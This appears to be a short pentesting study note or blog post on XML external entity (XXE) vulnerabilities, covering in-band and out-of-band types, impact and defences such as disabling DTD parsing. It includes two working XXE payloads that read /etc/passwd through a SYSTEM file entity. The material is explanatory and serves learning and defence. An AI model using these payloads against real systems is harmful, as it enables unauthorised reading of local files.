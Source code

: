 ```yaml
---
layout: post
title: xml external entity (XXE) vulnerabilities
date: 2025-02-22
description: xml external entity (XXE) vulnerabilities
tags: theory web exploitation 
categories: pentesting
featured: false
toc:
  sidebar: left
---
```


app uses untrusted xml-documents - e.g. provided by the user
xml files are generated based on user input without input validation 

**2 Types:**
1.  in-band XXE: attacker receives immediate response to payload
2.  out-of-band XXE: no immediate respone, output has to be reflected to some file or server

# Examples
use xml file to read the contents of /etc/passwd
``` xml
<?xml version="1.0" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
sometimes, the xml version has to be downgraded to a certain encoding:
``` xml
<?xml version="1.0" encoding="ISO-8859-1" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
# Impact
- attackers can interact with backand or external systems
- readout of local files
- DoS attacks

# Defense
- use secure and updated xml-parser and SOAP framework
- deactivate parsing of DTDs (Document type definitions)
- validate data that is insertedinto an xml file
- validate xml file against xms 
